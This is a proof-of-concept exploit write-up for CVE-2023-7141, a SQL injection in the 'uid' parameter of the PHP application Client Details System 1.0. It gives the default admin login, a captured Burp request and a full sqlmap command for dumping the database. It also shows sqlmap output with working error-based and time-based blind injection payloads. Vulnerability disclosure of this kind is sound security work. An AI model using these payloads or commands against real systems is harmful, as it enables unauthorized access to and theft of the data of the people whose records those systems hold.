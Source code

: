 # CVE-2023-7141_Client_Details_System-SQL_Injection_5
+ **Exploit Title:** CVE-2023-7141_Client_Details_System-SQL_Injection_5
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7141

## References: 
+ **CVE-2023-7141:** https://vuldb.com/?id.249144
+ https://www.cve.org/CVERecord?id=CVE-2023-7141
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7141
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7141

## Description:
Client Details System 1.0 allows SQL Injection via parameter 'uid' in "/clientdetails/admin/update-clients.php?uid=3". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Fill User Id and Password with `admin`:`client123` and log in.
+ Manage Users: "http://localhost/clientdetails/admin/manage-users.php"
+ Then click Edit button for any user: "http://localhost/clientdetails/admin/update-clients.php?uid=3"
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /clientdetails/admin/update-clients.php?uid=3 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=p5mgq2eci66sik6s94eakcjub9
Referer: http://localhost/clientdetails/admin/clientview.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

```

+ Use sqlmap to exploit. In sqlmap, use 'uid' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p uid --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: uid (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: uid=3'+(SELECT 0x6c464a42 WHERE 4357=4357 AND (SELECT 4176 FROM(SELECT COUNT(*),CONCAT(0x7178626271,(SELECT (ELT(4176=4176,1))),0x7170626271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))+'

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uid=3'+(SELECT 0x6b5a6545 WHERE 9285=9285 AND (SELECT 7542 FROM (SELECT(SLEEP(5)))GfcH))+'
---
[18:14:00] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[18:14:01] [INFO] fetching current database
[18:14:01] [INFO] retrieved: 'loginsystem'
current database: 'loginsystem'
```

+ current database: `loginsystem`
![5](https://github.com/h4md153v63n/CVEs/assets/5091265/107593ab-0372-4e02-8ce8-727a17c95d5a)
